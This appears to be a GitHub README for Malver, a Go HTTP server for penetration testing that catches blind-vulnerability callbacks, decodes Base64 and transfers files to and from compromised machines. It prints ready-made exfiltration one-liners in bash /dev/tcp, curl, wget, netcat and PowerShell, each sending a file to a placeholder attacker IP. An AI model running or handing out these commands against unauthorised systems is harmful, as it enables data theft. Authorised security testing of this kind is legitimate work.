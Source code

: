 # Malver - **Mal**icious Ser**ver** for Pentesting & Bug Bounty

## Overview

Malver (**Mal**icious Ser**ver**) is a lightweight HTTP server designed to simplify common tasks in penetration testing and bug bounty hunting. It allows security researchers to efficiently decode Base64 data, validate blind vulnerabilities, and transfer files to and from a compromised system.



## Features

- Base64 Decoding – Quickly decode attacker-controlled data.
- File Transfer – Upload/download files in engagements.
- Blind Vulnerability Testing – Use `/` to validate SSRF, RCE, or command injection.
- Configurable – Customize endpoint paths and directories via CLI.
- Logging – Outputs structured logs for tracking interactions.
- Upload Command Generator – Automatically generate ready-to-use upload commands for upload feature.



## Endpoints

| Method | Endpoint | Description |
| ---- | ---- | ---- |
| GET | `/` | Used to validate blind vulnerabilities by sending a request.|
| GET | `/down/{filename}` | Downloads a file from the victim’s machine.|
| POST | `/up` | Uploads a file from the victim’s machine to the attacker's system.|
| GET | `/b64d?d=<encoded>` | Decodes Base64-encoded query data.|



## Installation

Ensure you have Go installed, then run:

```bash
go install github.com/omarelshopky/malver/cmd/malver@latest
```

This will install the malver binary in your Go bin directory.



## Usage

```bash
malver [-headers] [-port=3000] [-upload=./uploads] [-download=./downloads] [-ping-endpoint=/] [-down-endpoint=/down] [-up-endpoint=/up] [-b64d-endpoint=/b64d]
```



## Command-Line Flags

| Flag | Default | Description |
| ---- | ---- | ---- |
| `-headers` | `false` | Log request headers |
| `-port` | `3000` | Port to run the HTTP server on |
| `-upload` | `./uploads` | Directory for file uploads |
| `-download` | `./downloads` | Directory for file downloads |
| `-ping-endpoint` | `/` | Endpoint for ping |
| `-down-endpoint` | `/down/` | Endpoint for file downloads |
| `-up-endpoint` | `/up` | Endpoint for file uploads |
| `-b64d-endpoint` | `/b64d` | Endpoint for base64 decoding |
| `-upload-cmds` | `false` | Generate ready-to-use upload commands |
| `-ip` | `<ATTACKING_IP>` | Specify the attacker's IP address (used with -upload-commands) |
| `-file` | `<FILE_PATH>` | Specify the full path of the file to be uploaded (used with -upload-commands) |



## Example Use Cases

- Send a request to `/` and check if the target system can reach back.
- Extract and decode data sent from an exploited machine using `/b64d?q=<encoded>`
- Retrieving files from a compromised machine using `/down/{filename}` to download files.
- Upload a shell or tool using the `/up` endpoint. Use `-upload-commands` to generate pre-configured upload commands that can be executed on the victim machine using various built-in tools.




### Generating Upload Commands

To quickly generate ready-to-use upload commands, use:

```bash
malver -upload-commands -ip <ATTACKING_IP> -file <FILE_PATH>
```

Example output:

> Bash

```bash
exec 3<>/dev/tcp/<ATTACKING_IP>/3000; { printf "POST /up HTTP/1.1\r\nHost: <ATTACKING_IP>:3000\r\nContent-Type: application/octet-stream\r\nFilename: <FILE_PATH>\r\nContent-Length: $(wc -c < <FILE_PATH>)\r\n\r\n"; cat <FILE_PATH>; } >&3; cat <&3; exec 3>&-
```

> cURL (Multipart Upload)

```bash
curl -X POST http://<ATTACKING_IP>:3000/up -F "file=@<FILE_PATH>"
```

> cURL (Raw Binary Upload)

```bash
curl -X POST --data-binary "@<FILE_PATH>" http://<ATTACKING_IP>:3000/up -H "Filename: <FILE_PATH>"
```

> wget

```bash
wget --method=POST --body-file=<FILE_PATH> --header="Filename: <FILE_PATH>" --header="Content-Type: application/octet-stream" "http://<ATTACKING_IP>:3000/up"
```

> Invoke-WebRequest (PowerShell)

```powershell
Invoke-WebRequest -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> Invoke-RestMethod (PowerShell)

```powershell
Invoke-RestMethod -Uri "http://<ATTACKING_IP>:3000/up" -Method Post -InFile "<FILE_PATH>" -ContentType "application/octet-stream" -Headers @{"Filename"="<FILE_PATH>"}
```

> netcat (nc)

```bash
(echo -en "POST /up HTTP/1.1\r\nHost: <ATTACKING_IP>:3000\r\nContent-Length: $(wc -c < <FILE_PATH>)\r\nFilename: <FILE_PATH>\r\nContent-Type: application/octet-stream\r\n\r\n"; cat <FILE_PATH>) | nc <ATTACKING_IP> 3000
```



## Logging

All requests are logged in the following format:

```bash
<DATE> <TIME> <CLIENT_IP>:<CLIENT_PORT> "<METHOD> <ENDPOINT><QUERY_PARAMS> HTTP/<HTTP_VERSION>" <STATUS_CODE> - [<POST_DATA>] <ENDPOINT_SPECIFIC_MESSAGE>
```

This helps track interactions with the server, including query parameters, POST data, and decoded Base64 content.



## Disclaimer

Malver is intended for legal penetration testing and security research only. Unauthorized use of this tool against systems without explicit permission is illegal and unethical. The author is not responsible for any misuse.
